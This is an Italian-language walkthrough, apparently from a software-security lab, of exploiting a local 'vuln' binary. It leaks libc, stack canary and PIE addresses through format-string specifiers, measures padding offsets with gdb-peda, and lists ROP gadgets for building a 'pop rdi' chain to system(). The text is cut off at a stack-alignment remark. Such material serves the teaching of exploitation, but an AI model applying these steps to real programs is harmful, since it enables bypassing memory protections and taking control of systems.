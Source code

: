 https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/


Tenuto conto che:
- gli indirizzi di libc iniziano con 0x7f
- gli indirizzi che iniziano con 55 spesso (?) sono istruzioni dell'eseguibile

... lanciando step1.py scopriamo che in:

%0$lx - b'AAAA %0$lx'               è il nostro input
%1$lx - b'AAAA 10'
%2$lx - b'AAAA 1'
%3$lx - b'AAAA 7ffff7e94a37'        sembra un indirizzo in libc
%4$lx - b'AAAA 7ffff7f9ba70'        sembra un indirizzo in libc
%5$lx - b'AAAA 5555555596b0'        sembra un indirizzo dell'eseguibile
%6$lx - b'AAAA 7fffffffdcf8'        sembra un indirizzo in libc
%7$lx - b'AAAA 100000000'
%8$lx - b'AAAA 2438252041414141'    contiene parte del nostro input AAAA
%9$lx - b'AAAA a786c'
%10$lx - b'AAAA 0'
%11$lx - b'AAAA a3625ef621117600'    canary?
%12$lx - b'AAAA 1'
%13$lx - b'AAAA 7ffff7da9d90'        sembra un indirizzo in libc
%14$lx - b'AAAA 0'
%15$lx - b'AAAA 5555555551b6'        sembra un indirizzo dell'eseguibile
%16$lx - b'AAAA 100000000'
%17$lx - b'AAAA 7fffffffdcf8'        sembra un indirizzo in libc
%18$lx - b'AAAA 0'
%19$lx - b'AAAA ce42db69663e5e18'    canary?

step 2: LIBC Leak

Vediamo che in %3$lx abbiamo un indirizzo interno a libc, andiamo a rieseguire il codice all'interno di gdb, prendiamo tale valore e guardiamo poi con vmmap l'inizio di libc, calcolando così l'offset:
0x7ffff7e94a37 - 0x00007ffff7d80000 = 0x114A37
Questo offset non cambierà mai, in qualunque esecuzione (Anche con aslr attivo) l'offset sarà questo e potremo così trovare l'inizio di libc

step 3: Canary leak

Tra i dati visti al punto uno abbiamo due valori che sembrano casuali, il 11 ed il 19: uno di questi è probabilmente il canarino. Disassemblando il main troviamo verso il fondo questo codice:

   0x555555555255 <main+159>:	mov    eax,0x0
   0x55555555525a <main+164>:	mov    rdx,QWORD PTR [rbp-0x8]
=> 0x55555555525e <main+168>:	sub    rdx,QWORD PTR fs:0x28
   0x555555555267 <main+177>:	je     0x55555555526e <main+184>
   0x555555555269 <main+179>:	call   0x555555555090 <__stack_chk_fail@plt>

La verifica del canarino si basa sul registro rdx, possiamo quindi ora rilanciare il programma, impostare un breakpoint all'indirizzo 0x55555555525e, guardare i valori 11 e 19 ed osservare a quale di essi corrisponde il valore del registro rdx al momento in cui l'esecuzione si blocca sul bp: scopriamo così che il canarino è l'11.

step 3: PIE (Binary Base Leak)

Dobbiamo ora capire di quanto è lo sfasamento degli indirizzi nel codice del binario sotto attacco, sfasamento introdotto dalla protezione PIE. Il valore 5 sembra un indirizzo interno all'eseguibile, possiamo eseguire di nuovo, farci dare tale valore (che cambia ad ogni esecuzione) e controllare con vmmap qual è l'intervallo di indirizzi per l'esecuzione corrente, calcolando così l'offset.

gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555555000 r--p	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555555000 0x0000555555556000 r-xp	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555556000 0x0000555555557000 r--p	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555557000 0x0000555555558000 r--p	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555558000 0x0000555555559000 rw-p	/home/vincenzo/Desktop/swsec_1/vuln

0x5555555596b0 - 0x0000555555554000 = 0x56B0

step 4: padding del canarino

Per questo generiamo con gdb un pattern senza ripetizioni, eseguiamo il programma e vediamo cosa troviamo in rdx al momento della verifica. Quando ci troviamo in bp all'istruzione 0x55555555525e troviamo
RDX: 0x3b41414441412841 ('(AADAA;A')
e con pattern_offset A(AADAA; otteniamo
gdb-peda$ pattern_offset (AADAA;A
(AADAA;A found at offset: 24

Trovato il padding del canarino possiamo procedere col trovare il padding del return. Per fare questo usiamo lo script step04.py che fa il leak del canarino al primo input ed al secondo invia un padding di 8 caratteri a cui concatena il canarino ed il pattern. Lo script avvia automaticamente gdb, esegue il leak, lo facciamo continuare fino a dopo l'input del pattern e quando si arresta nuovamente eseguiamo in gdb "pattern search". Con questo comando gdb cerca pezzi di pattern in tutti i registri, nello stack ed in qualunque altro posto e ci restituisce questo:

gdb-peda$ pattern search
Registers contain pattern buffer:
RBP+0 found at offset: 0
Registers point to pattern buffer:
[RSP] --> offset 8 - size ~58
Pattern buffer found at:
0x00005555555596d0 : offset    0 - size   64 ([heap])
0x00007fffffffde20 : offset    0 - size   64 ($sp + -0x8 [-2 dwords])
References to pattern buffer found at:
0x00007fffffffddc8 : 0x00007fffffffde20 ($sp + -0x60 [-24 dwords])

La riga che ci interessa è quella relativa a [RSP] dove vediamo un offset pari a 8: quella è la lunghezza del secondo blocco di caratteri junk che dobbiamo inserire per arrivare a sovrascrivere il ret:
'A'* 8 + canary + 'B'* 8 + ROP

step 5: Iniziamo a mettere assieme il tutto

Dobbiamo fare il leak di 3 cose ma non abbiamo abbastanza caratteri, dovremo quindi dividere in due l'ottenimento di informazioni. Il programma non ci consente però infiniti tentativi, dovremo quindi crearceli noi facendolo ripartire dal main dopo ogni tentativo. I primi due leak che dobbiamo fare riguardano PIE e canarino, possiamo poi proseguire con libc. Ci mancano però ancora alcuni dati.

Prima di tutto ci serve un modo per fare il pop del registro rdi visto che è il registro usato nei processori a 64bit per passare valori alla funzione che verrà chiamata (system nel nostro caso):
vincenzo@swsec-VirtualBox:~/Desktop/swsec_1$ ROPgadget --binary vuln | grep "pop rdi"
0x00000000000011ac : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000000011a9 : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000000011af : mov ebp, esp ; pop rdi ; ret
0x00000000000011ae : mov rbp, rsp ; pop rdi ; ret
0x00000000000011b1 : pop rdi ; ret
0x00000000000011ad : push rbp ; mov rbp, rsp ; pop rdi ; ret



quando viene eseguita una chiamata a system il registro RSP deve contenere un valore 16-aligned, quindi terminare per 0, altrimenti l'istruzione 
movaps XMMWORD PTR [rsp],xmm0
va in SIGSEGV